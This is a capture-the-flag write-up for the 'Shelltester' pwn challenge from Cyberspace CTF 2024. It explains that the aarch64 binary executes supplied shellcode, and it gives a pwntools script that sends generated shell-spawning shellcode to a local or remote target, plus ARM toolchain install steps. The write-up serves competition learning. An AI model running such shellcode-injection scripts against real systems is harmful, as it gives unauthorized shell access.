

# Shelltester

|              |                                                                                    |
| ------------ | ---------------------------------------------------------------------------------- |
| **CTF**      | [Cyberspace CTF](https://2024.csc.tf/) [(CTFtime)](https://ctftime.org/event/2428) |
| **Author**   | [0xM4hm0ud](https://github.com/0xM4hm0ud)                                          |
| **Category** | Pwn                                                                                |
| **Solves**   | 96                                                                                 |
| **Files**    | [handout_shelltester.zip](handout_shelltester.zip)                                 |



# Solution

We receive a binary file. Let's check the type of binary and its protections:


We can see that it's an aarch64 binary. NX is enabled, and the GOT has partial RELRO protection. <br/>
If we disassemble the binary, we see this:


We can see that it asks for shellcode and executes our shellcode. <br/>
We don't have a length restriction, so let's use Pwntools to create the shellcode:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = """
""".format(
    **locals()
)

exe = "./chal"
elf = context.binary = ELF(exe, checksec=False)
context.clear(arch="aarch64")
context.log_level = "critical"

io = start()

payload = asm(shellcraft.sh())
io.sendlineafter(b"place!\n", payload)

io.interactive()
```

For this to work, you need to have ARM support on your machine. <br/>
You can install this with:

```bash
$ sudo apt-get install software-properties-common
$ sudo apt-add-repository ppa:pwntools/binutils
$ sudo apt-get update
$ sudo apt-get install binutils-aarch64-linux-gnu
```

When running the script, we can obtain the flag:


